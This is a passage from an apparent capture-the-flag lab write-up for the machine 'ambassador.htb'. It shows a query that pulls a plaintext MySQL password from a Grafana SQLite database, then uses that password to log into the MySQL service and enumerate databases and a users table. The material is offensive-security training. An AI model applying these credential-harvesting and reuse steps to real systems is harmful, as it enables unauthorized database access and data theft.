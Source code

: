 ```shell
, `is_default` INTEGER NOT NULL
, `json_data` TEXT NULL
, `created` DATETIME NOT NULL
, `updated` DATETIME NOT NULL
```

we queried the table and got something that might look like mysql database credentials.

```shell
sqlite> select user, password, type, database from data_source;
grafana|dontStandSoCloseToMe63221!|mysql|grafana
```

luckily we remember a mysql database service had an open port on `3306`

```shell
$ mysql -u grafana -h ambassador.htb -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 157
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

and we are in.

```shell
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+

```

the `whackywidget` database had a `users` table

```shell
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
```
